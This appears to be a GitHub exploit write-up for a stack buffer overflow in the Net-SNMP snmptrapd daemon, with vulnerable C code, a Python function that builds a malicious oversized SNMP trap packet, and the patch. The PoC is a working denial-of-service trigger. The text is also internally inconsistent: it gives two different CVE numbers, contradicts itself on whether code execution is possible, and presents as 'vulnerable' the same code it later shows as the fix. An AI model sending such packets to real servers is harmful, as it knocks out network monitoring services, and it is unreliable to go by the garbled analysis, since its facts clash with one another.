

# CVE-2025-2263 Stack Buffer Overflow Exploit

- **Target:** NET-SNMP (version < 5.9.5)
- **CVSS Score:** 9.8 (Critical)
- **Attack Vector:** Network (UDP/162)
- **Authentication:** None Required
- **Impact:** DoS
- **Patched Version:** 5.9.5+
- **Exploit:** [Link](https://github.com/buddurid/snmptrapd-type-confusion)
- **Credits:** buddurid (ZDI)


## Description

CVE-2025-68615 is a stack buffer overflow vulnerability in the Net-SNMP snmptrapd daemon. The vulnerability is caused by a type confusion in the snmptrapd daemon, which allows an attacker to write arbitrary data to the stack. Due to the security mechanism of the snmptrapd daemon, the vulnerability can only be exploited to achieve Remote Code Execution as stack canaries and ASLR is enabled preventing full exploitation.


## Vulnerability Analysis

The Simple Network Management Protocol (SNMP) uses "traps" to send asynchronous notifications from agents to management stations. The snmptrapd daemon listens for these traps and processes them according to configured handlers.

Standard SNMP parsing enforces a `MAX_OID_LEN` (128 sub-identifiers) limit, which seemingly prevents overflowing the default OID buffers. However, snmptrapd contains a logic flaw in `apps/snmptrapd_handlers.c`. When parsing an incoming trap, the code checks if the second variable binding is the `snmpTrapOID` (1.3.6.1.6.3.1.1.4.1.0) and then blindly trusts the length of the `snmpTrapOID` variable binding without validating its data type.

`apps/snmptrapd_handlers.c`

```c
// 1. Check if the Name matches snmpTrapOID
if (!vars || snmp_oid_compare(vars->name, vars->name_length,
                              snmpTrapOid, OID_LENGTH(snmpTrapOid))) {
    // ... (logic for non-matching case)
}
// 2. Fast Path (Fallthrough)
// The code assumes that if the NAME is correct, the TYPE must be ASN_OBJECT_ID.
// IT DOES NOT CHECK vars->type!
// 3. Vulnerable Calculation & Copy
trapOidLen = vars->val_len / sizeof(oid);
memcpy(trapOid, vars->val.objid, vars->val_len); // STACK OVERFLOW
```

We cannot send an `ASN_OBJECT_ID` larger than 128 items because the standard parser (`snmp_api.c`) rejects it. As a workaround, we send a crafted trap with a large `ASN_OCTET_STR` value. 

```c

int
snmp_input(int op, netsnmp_session *session,
           int reqid, netsnmp_pdu *pdu, void *magic)
{
    oid stdTrapOidRoot[] = { 1, 3, 6, 1, 6, 3, 1, 1, 5 };
    oid snmpTrapOid[]    = { 1, 3, 6, 1, 6, 3, 1, 1, 4, 1, 0 };
    oid trapOid[MAX_OID_LEN+2] = {0};
    int trapOidLen;
    netsnmp_variable_list *vars;
    netsnmp_trapd_handler *traph;
    netsnmp_transport *transport = (netsnmp_transport *) magic;
    int ret, idx;

    switch (op) {
[..snip..]
        case SNMP_MSG_INFORM:
            /*
	     * v2c/v3 notifications *should* have snmpTrapOID as the
	     *    second varbind, so we can go straight there.
	     *    But check, just to make sure
	     */
            vars = pdu->variables;
            if (vars)
                vars = vars->next_variable;
            if (!vars || snmp_oid_compare(vars->name, vars->name_length,
                                          snmpTrapOid, OID_LENGTH(snmpTrapOid))) {
	        /*
		 * Didn't find it!
		 * Let's look through the full list....
		 */
		for ( vars = pdu->variables; vars; vars=vars->next_variable) {
                    if (vars->type != ASN_OBJECT_ID)
                        continue;
                    if (!snmp_oid_compare(vars->name, vars->name_length,
                                          snmpTrapOid, OID_LENGTH(snmpTrapOid)))
                        break;
                }
                if (!vars) {
	            /*
		     * Still can't find it!  Give up.
		     */
		    snmp_log(LOG_ERR, "Cannot find TrapOID in TRAP2 PDU\n");
		    return 1;		/* ??? */
		}
	    }
            trapOidLen = SNMP_MIN(sizeof(trapOid), vars->val_len) / sizeof(oid);
            memcpy(trapOid, vars->val.objid, trapOidLen * sizeof(oid));
            break;

        default:
            /* SHOULDN'T HAPPEN! */
            return 1;	/* ??? */
	}
[..snip..]

```

## Proof of Concept

The above function contains the switch cases responsible to handle the incoming traps, as we could see the `SNMP_MSG_INFORM` which due to the logic flaw in the conditional check the `if (!vars)` condition returns false as we send a non-empty varbind value and the second check will also return false as `snmp_oid_compare` returns a 0 value as our crafted PDU will contain a valid TrapOID value. The code then flows to the `memcpy` call which triggers the stack overflow as the if condition is skipped.

```python
def build_malicious_packet(payload_size=2000):
    # 1. Variable Bindings
    var_binds = univ.SequenceOf(univ.Sequence())
    
    # VarBind 1: sysUpTime (required for valid trap)
    # 1.3.6.1.2.1.1.3.0 = 12345
    vb1 = univ.Sequence()
    vb1.setComponentByPosition(0, univ.ObjectIdentifier('1.3.6.1.2.1.1.3.0'))
    vb1.setComponentByPosition(1, univ.Integer(12345).subtype(
        implicitTag=tag.Tag(tag.tagClassApplication, tag.tagFormatSimple, 3) # TimeTicks
    ))
    var_binds.setComponentByPosition(0, vb1)
    
    # VarBind 2: snmpTrapOID = MALICIOUS PAYLOAD
    # Name: 1.3.6.1.6.3.1.1.4.1.0 (snmpTrapOID)
    # Value: OCTET STRING ("A" * size) - TYPE CONFUSION!
    vb2 = univ.Sequence()
    vb2.setComponentByPosition(0, univ.ObjectIdentifier('1.3.6.1.6.3.1.1.4.1.0'))
    vb2.setComponentByPosition(1, univ.OctetString("A" * payload_size))
    var_binds.setComponentByPosition(1, vb2)
    
    # 2. PDU
    pdu = SNMPv2TrapPDU()
    pdu.setComponentByName('request-id', 1999)
    pdu.setComponentByName('error-status', 0)
    pdu.setComponentByName('error-index', 0)
    pdu.setComponentByName('variable-bindings', var_binds)
    
    # 3. Message
    msg = SNMPMessage()
    msg.setComponentByName('version', 1)  # SNMPv2c = 1
    msg.setComponentByName('community', COMMUNITY)
    msg.setComponentByName('data', pdu)
    
    return encoder.encode(msg)
```

The `build_malicious_packet` function is a Python function that constructs a malicious SNMP trap packet with a large `ASN_OCTET_STR` value. The function takes a `payload_size` parameter, which defaults to 2000, and returns the encoded packet. Within the function, we set the community string to `public` and the request ID to `1999`. We also set the error status and error index to `0` and the variable bindings to a sequence of sequences. The first sequence contains the `sysUpTime` variable binding, which is required for a valid trap. The second sequence contains the `snmpTrapOID` variable binding, which is the malicious payload. The `snmpTrapOID` variable binding is the second variable binding in the trap, and it is the one that is processed by the vulnerable code. 



## Mitigation

Code Fix: The fix involves enforcing SNMP_MIN to ensure the copy length never exceeds the buffer size. The type check is also implemented to ensure that the variable binding is an `ASN_OBJECT_ID`.

Commit: 439b12cff7c0fe761c413b63f53a4e47b9bb606b

```c
for ( vars = pdu->variables; vars; vars=vars->next_variable) {
                    if (vars->type != ASN_OBJECT_ID)
                        continue;
                    if (!snmp_oid_compare(vars->name, vars->name_length,
                                          snmpTrapOid, OID_LENGTH(snmpTrapOid)))
                        break;
                }
                if (!vars) {
	            /*
		     * Still can't find it!  Give up.
		     */
		    snmp_log(LOG_ERR, "Cannot find TrapOID in TRAP2 PDU\n");
		    return 1;		/* ??? */
		}
	    }
            trapOidLen = SNMP_MIN(sizeof(trapOid), vars->val_len) / sizeof(oid);
            memcpy(trapOid, vars->val.objid, trapOidLen * sizeof(oid));
            break;

```